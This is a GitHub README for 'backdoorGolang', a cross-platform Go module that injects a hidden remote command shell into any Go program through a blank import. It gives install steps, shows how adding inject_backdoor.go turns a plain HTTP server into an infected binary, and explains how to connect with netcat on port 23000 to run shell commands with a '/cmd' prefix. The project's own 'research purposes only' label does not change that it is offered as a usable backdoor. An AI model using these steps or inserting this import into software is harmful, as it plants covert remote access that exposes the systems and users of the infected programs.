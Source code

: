 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Platform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

This code is for research purposes only.

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

"A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible)."

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolangtests
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolangtests/simple_example` folder, remove the inject_backdoor.go source file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

## Client

It is used the 'localhost:23000' address hardcoded for now. The intention is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
/cmd ps aux
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
